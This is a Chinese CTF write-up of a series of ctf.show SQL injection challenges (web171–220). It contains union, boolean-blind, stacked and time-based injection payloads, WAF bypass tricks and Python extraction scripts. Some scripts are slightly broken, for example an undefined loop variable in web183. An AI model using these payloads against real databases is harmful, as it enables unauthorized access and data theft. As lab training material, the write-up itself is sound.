



web171 1 $sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
显然字符型注入，且只回显1条
1 2 3 4 5 http://ff9bfe2a-5898-4dea-b591-89cd68ab7a67.challenge.ctf.show/select-waf.php1 order by 3 -1' union select 1,2,3 --+ -1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ -1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' --+ -1' union select id,username,password from ctfshow_user --+
web172 同上不过库名变成了ctfshow_user2
web173 返回结果过滤flag 查询语句依旧不变
但注意这次多了一个waf
1 2 3 4 5 //检查结果是否有flag if(!preg_match('/flag/i', json_encode($ret))){ $ret['msg']='查询成功'; }
所以不管是查询内容还是显示的内容都不能存在flag
好办将第二列显示flag的编码一下即可
1 2 其余查询语句依旧 -1' union select id,to_base64(username),password from ctfshow_user3 --+
web176 大写绕过union select 题目提示有过滤，但不知道过滤了什么，一步步探测
发现应该是过滤了union select
但是由于sql语句本身对语句是不区分大小写的，所以尝试大小写绕过
1 -1' uniOn seleCt 1,2,password from ctfshow_user --+
web177 空格过滤 1 2 //拼接sql语句查找指定ID用户 $sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
1 2 3 4 //对传入的参数进行了过滤 function waf($str){ //代码过于简单，不宜展示 }
先进行尝试结果order by就先噶了，浅猜测一下是否是过滤空格
使用/**/发现没问题，即过滤空格，对应的空格绕过有
1 %0a %0b %0c %0d %09 %a0 /**/ 括号等
构造
1 2 -1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/%23 请注意末尾的注释符要是有%23，不然没有用，不知道为什么
web178 过滤空格和/**/ 跟上一题一样，就给个过滤不知道过了什么
先尝试同样的payload发现不行，再试一下空格有没有被过滤
1 2 输入1空格，发现无回显----过滤空格 在输入1/**/，也无=-----过滤了/***/
ok，尝试一下空格的其他替代如%0a
发现可行，收工
web179 过滤空格 /**/ %0a 跟上一题一样的思路
1 2 3 4 输入1空格，发现无回显----过滤空格 在输入1/**/，也无=-----过滤了/***/ 输入1%0a，也无------过滤%0a 尝试%0c可以，收工
web180 —+中+过滤 跟上一题一样测试发现%0c可用，那什么被过滤了嘞，
先把上一题的payload放上，显然不对，发现不管输什么都不行，那就只能是一个固定的东西，那么我们就把目光集中一下，注释的问题，尝试—+，#，%23均不对，
那就做一些手脚吧，针对—+，首先要知道—+中的+代表的是空格的意思，那就可以使用%0c去代替+，发现可行，直接构造payload
1 -1'%0cunion%0cselect%0c1,2,password%0cfrom%0cctfshow_user%0c--%0c
web181 1 2 3 4 //对传入的参数进行了过滤 function waf($str){ return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str); }
显然空格代替均无，且select也无，那就不能进行select注入，看看别人怎么做的
1 知识点：or运算，两边分开运算，若前面无效则只执行后面的
1 2 //拼接sql语句查找指定ID用户 $sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
那就看后半句
1 username !='flag' and id = '-1'or(username='flag')and'a'='a '
id=’-1‘显然不成立，所以只会执行后面的，即
1 (username='flag')---(真正的语句)and'a'='a'--（注释符不可用，所以用此来闭合后单引号）
ok，最终payload就是
1 -1'or(username='flag')and'a'='a
web182 1 2 3 4 //对传入的参数进行了过滤 function waf($str){ return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str); }
ok，flag也被过滤了，但是根据之前的经验，flag对应的id为26
web183 1 2 3 4 5 6 ，//拼接sql语句查找指定ID用户 $sql = "select count(pass) from ".$_POST['tableName'].";"; //对传入的参数进行了过滤 function waf($str){ return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str); }
这里是post传参，所以测试一下
根据之前题目所知存在ctfshow_user表，测试看一下返回结果
再看过滤，过滤了空格，=等语句ban了
那么可以尝试拼接
tableName=(ctfshow_user)where(pass)like’ctfshow%’
那么就可以写脚本跑一下后续内容，盲注一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import requestsurl='http://8a3e6ee8-54ee-4936-83ac-e40e147035f9.challenge.ctf.show/select-waf.php' flagstr="}{-1234567890zxcasdqwertyfghvbnuiojklmZXCVBNMASDFGHJKLQWERTYUIOP" flag='ctfshow' while 1 : for i in flagstr: payload={"tableName" :"(ctfshow_user)where(pass)like'{0}%'" .format (flag+j)} r=requests.post(url,payload) if "$user_count = 1;" in r.text: flag=flag+i print (flag) break if '}' in flag: break
web184
相比于上一题过滤了where，所以，where判断语句就不行了，不过可以使用右连接、左连接等方式作为判断，其次‘也被过滤，所以like后就不能接字符串了，不过可以变成十六进制
1 2 tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0x63746673686f7725 ctfshow% ---hex--- 0x63746673686f7725
此时返回的是右表加左表匹配到的内容
当不匹配时
只返回右表，因此根据这个就可以去盲注出答案
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 import requestsimport binasciidef to_hex (s ): str_16 = binascii.b2a_hex(s.encode('utf-8' )) str_16 = bytes .decode(str_16) res = str_16.replace("b'" ,"" ).replace("'" ,"" ) return res url = "http://390a39fe-e6e7-4153-952a-f9e3606a2378.challenge.ctf.show/select-waf.php" str = "0123456789abcdefghijklmnopqrstuvwxyz{}-" flag = "ctfshow" for i in range (0 ,666 ): for j in str : result = "0x" + to_hex(flag + j + "%" ) data = {"tableName" :"ctfshow_user as a right join ctfshow_user as b on b.pass like {0}" .format (result)} res = requests.post(url=url, data=data) if "$user_count = 43" in res.text: flag += j print (flag) if j=="}" : exit() break
web185，186 
与上一题相比，过滤了数字，所以十六进制不行了
这里就要说明一下
数据库中true相当于1，而true+true==2
那么我们就可以去拼接出我们想要的数字
以下是生成chr的数字字符串函数
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 def createNum (n ): str = 'true' if n == 1 : return 'true' else : for i in range (n - 1 ): str += "+true" return str def change_str (s ): str ="" str +="chr(" +createNum(ord (s[0 ]))+")" for i in s[1 :]: str +=",chr(" +createNum(ord (i))+")" return str
web187
变题型了，看返回逻辑是要求username=admin，且在数据库中成功登录
其password是被md5加密的，且第二个参数是true，返回的是一个16位二进制
这里有特殊字符==ffifdyop==
1 2 echo md5('ffifdyop',true); 'or'6�]��!r,��b�
那么密码这里就传进去后就会返回true
那么最终就是
1 2 username=admin password=ffifdyop
web 188
重点在sql语句，在过滤中过滤了许多东西，显然不太能拼接sql语句去查询，但是单看已知查询语句
比较是一个=，显然就是一个弱比较，当字符遇到数字会强制转换成数字，字符就会变成0，因此当我们传入0，就会和所有字母开头的数据进行匹配，从而查询到所有语句
当如果不是字母开头就匹配不到，那么就要使用 1||1
当匹配时，显然username=1是不匹配的，那么久就会执行||1，那么返回结果就是1，所以匹配成功
password，传数字即可
盲注 web 189
看起来似乎和上一题区别不大，但是上一题的payload不行，那就说明密码不是字符开头的，就不能进行弱比较了，再看题目说明flag在api/index.php文件中，那么就可以使用load_file去打开文件，得到其中的内容，然后进行盲注比较
regexp相当于正则匹配
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 import requestsurl = "http://e232d7fb-b70d-4123-a740-369d7137c5dd.challenge.ctf.show:8080/api/index.php" all_str = "0123456789abcdefghijklmnopqrstuvwxyz-{}" flag = "ctfshow{" for i in range (200 ): for j in all_str: data = { "username" :"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)" .format (flag + j), 'password' :0 } res = requests.post(url=url, data=data) if r"\u5bc6\u7801\u9519\u8bef" in res.text: flag +=j print (flag) break if j=='}' : exit()
web190 无
只对密码进行要求，显然就是在用户名出注入语句
但是，观看返回逻辑，没有返回选项
随便输入admin 0 返回密码错误，输入 0 0，显示用户名不存在，那么大概率就是盲注了
但注入判断条件该怎么写
当用户名是
也会返回密码错误
会返回用户名不存在
那么大概就是if语句判断了，最终脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 import requestsurl = "http://85a1ea9e-0f13-4e36-8891-bb635e166d58.challenge.ctf.show/api/" data = {'username' :'' , 'password' :123456 } flag = '' for i in range (1 ,46 ): start = 32 end = 127 while start < end: mid = (start + end) >> 1 payload = "select f1ag from ctfshow_fl0g" data['username' ] = f"admin' and if(ascii(substr(({payload} ), {i} , 1)) > {mid} , 1, 2)=1#" res = requests.post(url=url, data=data) if "密码错误" in res.json()['msg' ]: start = mid +1 else : end = mid flag = flag + chr (start) print (flag)
191 ascii
对用户名增加了过滤，不允许ascii
那其实很简单，ord也可以将字符转为ascii码
192 ascii ord hex
把ord hex都过滤了
首先取出这几个函数在这里的作用，都是用于判断，从而返回1或者2，在判断，给select语句返回1或0，所以只要存在一个可以匹配字符或者字符的其他形式的函数即可
那么之前有说过mysql的正则匹配函数regexp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import requestsurl = "http://566426d5-6b50-4579-9728-16a5e8cef4a6.challenge.ctf.show/api/" data = {'username' :'' , 'password' :123456 } flag = '' str ="qwertyuiop{}asdfghjklzxcvbnm-0123456789_ " for i in range (1 ,46 ): for j in str : payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()" data['username' ] = f"admin' and if(substr(({payload} ), {i} , 1) regexp ('{j} '), 1, 0)=1#" res = requests.post(url=url, data=data) if "密码错误" in res.json()['msg' ]: flag+=j print (flag)
193|194 substr
过滤了substr，换其他截取字符函数即可，如mid limit等
或者
1 2 data = "admin' and if(({0})regexp('^{1}'), 1, 0)=1#".format(payload, flag + j) 其中^代表就是从第一位开始匹配
堆叠注入 195 首先已经提示说明堆叠注入 ，那如果平时怎么想到堆叠注入呢 ，当过滤了联合注入的union select且无法绕过时就可以去考虑这个注入方法
最后一个if告知我们要登录成功才能拿到flag，显然就是想办法登录
但是我们不知道用户名和密码，但是我们通过堆叠注入，写入更新语句，将用户名和密码修改
但是这里空格被过滤，以及其等替也是，所以可以选择括号包裹或者反引号包裹执行
1 2 3 4 5 6 设置用户名为1 1;update(ctfshow_user)set(username)=1 1;update`ctfshow_user`set`username`=1 设置密码 1;update(ctfshow_user)set(pass)=1 然后 1 1登录即可
196
限制用户名长度最长不超过16
一开始以为是什么操作能够绕过这个长度限制
结果是过滤不严谨，过滤的是se1ect不是select，只能说牛马
但事实上我还是不会，看wp
1 2 username:0;select(1) pass:1
为什么怎么写呢，因为
当此语句中username=0，肯定是不存在的，那么在我们第二个语句select(1)，就会返回此值，即返回1，那么最终结果就是sql=1.在与我们传入的pass比较，相等，登录成功
197 198 199 200
select，update被过滤，原本想像update一样用其他语句来更新数据，
但是都需要into，显然没办法了
但是思索上一题，是让本身语句返回不出数据，从而让sql是我们已知的内容
由之前的题可知表名是ctfshow_user
1 2 0;show tables; ctfshow_user
时间盲注 214 什么都没给，麻了，注入口都不知道，
post传参ip和debug为0
正常找一个盲注脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import requestsurl="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/" data={ 'ip' :'' , 'debug' :0 } result='' i=0 while True : i=i+1 start=32 end=127 while start<end: mid=(start+end)>>1 payload='select flaga from ctfshow_flagx' data['ip' ]=f'if(ascii(substr(({payload} ),{i} ,1))>{mid} ,sleep(1),1)' try : res=requests.post(url,data,timeout=1 ) end=mid except Exception as e: start=mid+1 if start!=32 : result=result+chr (start) else : break print (result)
215
上一题是整数型注入，那么这题大致上是字符型注入，那就加上引号和注释符
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import requestsurl="http://e8bad2f6-84c0-468b-82ad-296231ad10fa.challenge.ctf.show/api/" data={ 'ip' :'' , 'debug' :0 } result='' i=0 while True : i=i+1 start=32 end=127 while start<end: mid=(start+end)>>1 payload='select flaga from ctfshow_flagx' data['ip' ]=f"'||if(ascii(substr(({payload} ),{i} ,1))>{mid} ,sleep(1),1)" try : res=requests.post(url,data,timeout=1 ) end=mid except Exception as e: start=mid+1 if start!=32 : result=result+chr (start) else : break print (result)
这与上一题还有一个差别，就是payload要加上||或语句，这样才能正确执行我们插入的语句，不然会被当成字符串处理无法返回内容
216
我们的语句会经过from_base64函数编码，所以我们需要闭合这个函数才能
更改上一题关键代码
1 data['ip']=f"0)||'if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)"
217 benchmark延时
首先肯定要括号闭合一下的，其次存在waf，我们传入的语句不能是sleep的大小写形式
那么就要找其平替
参见文章https://www.jb51.net/article/212587.htm
那就使用benchmark
1 benchmark(count,exp)执行exp count次
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 import timeimport requestsurl = "http://f70ed68d-44f9-4ed5-8310-c6fee8c45cfe.challenge.ctf.show/api/" payload = "if(ascii(mid((select group_concat(flagaabc) from ctfshow_flagxccb),{},1))>{},benchmark(8000000,md5(0x31)),1)" def valid_char (index: int , ascii : int ) -> bool : data = { "ip" : payload.format (index, ascii ), "debug" : 0 } try : _ = requests.post(url, data=data, timeout=3 ) except : return True return False result = "" i = 1 while True : start = 32 end = 127 while not (abs (start-end) == 1 or start == end): p = (start + end) // 2 if valid_char(i, p): start = p time.sleep(10 ) else : end = p if end < start: end = start if chr (end) == '!' : break result += chr (end) print (f"[*] result: {result} " ) i += 1
有一个注意点，每次跑完都要加上sleep让程序休息一下，不然可能会因为请求过多环境崩溃
218 RLIKE REGEXP正则匹配
benchmark无了
1 concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
以上代码等同于sleep(5)秒
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 import time import requests url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/" # 表名 ctfshow_flagxc,ctfshow_info # payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}" # 列名 id,flagaac # payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}" # flag payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}" def valid_payload(p: str) -> bool: data = { "debug": 0, "ip": f"if({p},(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'),1) " } time_s = time.time() _ = requests.post(url, data=data) time_e = time.time() # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入 return time_e-time_s > 4 index = 1 result = "" while True: start = 32 end = 127 while not(abs(start - end) == 1 or start == end): everage = (start + end) // 2 if valid_payload(payload.format(index, everage)): start = everage else: end = everage if end < start: end = start if chr(end) == "!": break result += chr(end) print(f"[*] result: {result}") index += 1
219 笛卡尔积延时
rlike也无了，所以换笛卡尔积
一个columns和两个tables的笛卡尔积刚好延时6秒左右
select count(*) from information_schema.columns A ,information_schema.tables B,information_schema.tables C
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 import time import requests url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/" # 表名 ctfshow_flagxc,ctfshow_info # payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}" # 列名 id,flagaac # payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}" # flag payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}" def valid_payload(p: str) -> bool: data = { "debug": 0, "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B," f"information_schema.tables C),1) " } time_s = time.time() _ = requests.post(url, data=data) time_e = time.time() # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入 return time_e-time_s > 4 index = 1 result = "" while True: start = 32 end = 127 while not(abs(start - end) == 1 or start == end): everage = (start + end) // 2 if valid_payload(payload.format(index, everage)): start = everage else: end = everage if end < start: end = start if chr(end) == "!": break result += chr(end) print(f"[*] result: {result}") index += 1
220
延时只能用笛卡尔积，其次ascii被禁了，前面有说过，ord也一样，最后substr也被禁了就不好截取字符比较了，那就只能拼接比较
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 import string import time import requests url = "http://bbdb689b-386c-435c-ae43-e707b9f65a76.challenge.ctf.show:8080/api/" # 表名 ctfshow_flagxcac # payload = "left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{})='{}'" # 列名 flagaabcc # payload = "left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{})='{}'" # flag payload = "left((select flagaabcc from ctfshow_flagxcac limit 0,1),{})='{}'" def valid_payload(p: str) -> bool: data = { "debug": 0, "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B," f"information_schema.tables C),1) " } time_s = None time_e = None while True: time_s = time.time() try: _ = requests.post(url, data=data) except: continue time_e = time.time() break # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入 return time_e-time_s > 4 letters = "{}_-" + string.ascii_lowercase + string.digits index = 1 result = "" while True: for letter in letters: load = payload.format(index, result + letter) if valid_payload(load): result += letter break print(f"[*] result: {result}") index += 1